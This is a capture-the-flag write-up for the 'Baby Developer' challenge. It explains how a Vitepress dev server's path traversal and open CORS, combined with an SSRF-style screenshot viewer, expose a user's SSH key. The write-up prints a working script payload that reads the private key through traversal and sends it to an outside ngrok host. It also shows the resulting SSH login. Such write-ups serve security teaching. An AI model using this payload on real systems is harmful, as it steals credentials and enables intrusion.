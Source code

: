 ```yaml
---
description: >-
  Directory traversal in insecure Vitepress development server leads to
  information disclosure through SSRF
---
```


# Baby Developer

## Description

I made a mobile\(apple watch miniminimini series 1337\) viewer on my personal server..

* `http://baby-developer.chal.acsc.asia:8888/`
* `ssh baby-developer.chal.acsc.asia -p2222`

{% file src="../../.gitbook/assets/baby-developer.tar.gz\_f5f00919ccc94f797a24d1a823a61773.gz" caption="Challenge Files" %}

## Solution

* There is a `genflag` server which you are supposed to SSRF
* However, the user agent is checked so you cant do it directly from `mobile-viewer`
* The pages are rendered as screenshots

```python
@app.route('/flag')
def hello_world():
    if request.remote_addr == dev and 'iPhone' not in request.headers.get('User-Agent'):
        fp = open('/flag', 'r')
        flag = fp.read()
        return flag
    else:
        return "Nope.."
```

From `mobile-viewer`, we need to request `http://genflag/flag` from `website`. This can be done from `/home/stypr/readflag` on `website`.

```text
# Challenge: get flag!
RUN touch /home/stypr/.hushlogin && \
    echo '#include <stdio.h>\r\n#include <stdlib.h>\r\nint main(){FILE *fp;char flag[1035];fp = popen("/usr/bin/curl -s http://genflag/flag", "r");if (fp == NULL) {printf("Error found. Please contact administrator.");exit(1);}while (fgets(flag, sizeof(flag), fp) != NULL) {printf("%s", flag);}pclose(fp);return 0;}' > /home/stypr/readflag.c && \
    gcc -o /home/stypr/readflag /home/stypr/readflag.c && \
    chmod +x /home/stypr/readflag && rm -rf /home/stypr/readflag.c
```

Refer to the [website source](https://github.com/stypr/harold.kim/blob/main/package.json). The `website` server runs `yarn dev`, which runs `vitepress dev src`.

Vitepress is run on dev mode. I found that this enables CORS, allowing us to perform a CSRF to exfiltrate data. Furthermore, I found that there was a path traversal vulnerability, allowing us to get the SSH key: `http://website/../../../../../home/stypr/.ssh/id_rsa`

From `mobile-viewer`, we can make a request to our attacker site, which contains:

```markup
<script>
    fetch("http://website/../../../../../home/stypr/.ssh/id_rsa")
    .then(resp => resp.text())
    .then(data => fetch('http://0db7-115-66-195-39.ngrok.io/?' + btoa(data)))
</script>
```

Get the private key and SSH into the server to get the flag:

```text
$ ssh stypr@baby-developer.chal.acsc.asia -p2222 -i id_rsa 
ACSC{weird_bugs_pwned_my_system_too_late_to_get_my_CVE}
```

